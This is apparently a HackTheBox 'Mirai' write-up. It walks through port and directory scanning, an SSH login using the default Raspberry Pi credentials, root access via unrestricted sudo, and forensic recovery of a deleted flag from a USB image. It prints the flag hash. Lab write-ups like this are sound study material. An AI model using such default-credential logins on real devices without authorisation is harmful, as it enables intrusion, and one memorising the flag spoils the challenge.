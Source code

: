 ```yaml
---
title: Mirai writeup
date: 2022-06-24 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "raspbery-pi", "usb", "forensics"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/mirai/
image: # Thumbnail 
  src: Mirai.png
  width: 1000   # in pixels
  height: 400   # in pixels
---          
```

## Summary
This box is quite interesting, in the sense that once you have rooted the box, you are actually not quite done. You first need to recover the flag, which was accidentally deleted. A very interesting concept and a unique way to add a forensics challenge to the box.

## Foothold
We start out by doing a nmap port scan
```console
┌──(bitis㉿workstation)-[~/htb/Machines/mirai]
└─$ nmap -sC -sV 10.129.83.20  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-25 00:55 CEST
Nmap scan report for 10.129.83.20
Host is up (0.076s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.16 seconds        
```
Three ports are open on the machine, port 22, 80 and 53 which is hosting a Domain Name Service. If we try to visit the web application, we just get greeted with a blank page. Scanning the application with gobuster reveals the following:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/mirai]
└─$ gobuster dir -u 10.129.83.20 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.83.20
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/25 01:00:11 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.129.83.20/admin/]
/.js                  (Status: 200) [Size: 61]                                
/versions             (Status: 200) [Size: 18]                                
/.min.js              (Status: 200) [Size: 61]                                
/.inc.js              (Status: 200) [Size: 61]                                
/.3.2.min.js          (Status: 200) [Size: 61]                                
                                                                              
===============================================================
2022/06/25 01:04:16 Finished
===============================================================
```
If we visit `/admin` we are lead to the pi-hole admin console.

![pi-hole admin console](pi-hole_admin.png)
_The pi-hole admin console_

We can then attempt to login.

![admin login](login.png)

If we attempt the default credentials `pi:raspberry` on the admin console we fail to login, however we can actually ssh into the machine with these credentials. 

![ssh](ssh.png) 

## Privilege escalation
Running sudo -l reveals that we have complete access to sudo, so becoming root is as simple as running `sudo su -` or simply `su -`
```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ su -
Password: 

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# 
```
Rooted! Or not? Reading `root.txt`{: .filepath} reveals that the flag has been moved: 
```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Using `df` we can see filesystems as well as where they are mounted on the system.
```console
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2835676   5547896  34% /
tmpfs             102396    4884     97512   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             255988       0    255988   0% /lib/live/mount/overlay
/dev/sda2        8856504 2835676   5547896  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             255988       8    255980   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             255988       0    255988   0% /sys/fs/cgroup
tmpfs             255988       8    255980   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51200       0     51200   0% /run/user/999
tmpfs              51200       0     51200   0% /run/user/1000
```
If we go to `/media/usbstick` we find this message from James:
```console
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
We can use `dcfldd` on the target machine to make a copy of the filesystem, which we can then coy to our system via `scp`.
```console
root@raspberrypi:/home/pi# dcfldd if=/dev/sdb of=/home/pi/usb2
256 blocks (8Mb) written.
320+0 records in
320+0 records out
root@raspberrypi:/home/pi# 
``` 
We can then run testdisk on it.

![testdisk](testdisk.png)

We then select the disk we want to test, the partition table type and list partition. I simply selected None as partition type. We can then see the contents of the partition.

![partition](partition.png) 

Testdisk finds root.txt on the partition, however if we copy the file with testdisk we get an empty file out. However since the file is clearly present somewhere on the filesystem, we can run strings on it and hopefully recover some of the data. 
```console
┌──(bitis㉿workstation)-[~/htb/Machines/mirai]
└─$ strings usb2
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
Luckily the output of `strings` gives us the root flag, and we have finally rooted the machine! 